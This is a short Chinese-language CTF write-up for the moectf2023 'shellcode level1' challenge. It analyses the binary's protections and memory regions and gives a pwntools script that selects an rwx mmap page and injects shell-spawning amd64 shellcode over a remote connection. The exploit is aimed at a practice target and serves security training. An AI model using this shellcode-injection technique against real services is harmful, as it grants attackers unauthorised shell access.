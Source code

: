 ```yaml
---
title: moectf2023 - shellcode level1
date: 2023/9/23 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过选择内存单元执行，输入4即可利用shellcode成功利用`shellcode_level1`程序。
---
```


## 文件分析

下载`shellcode_level1`, NX on, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

这次要我们选择内存单元执行，有stack, .bss, heap, mmap页等  
其中mmap分配时0页为rw-，后改为rwx；  
分配1页时为rwx，后改为---

只要输入4即可执行shellcode，同上题

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33251)
sh.sendline(b'4') # mmap paper 0
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
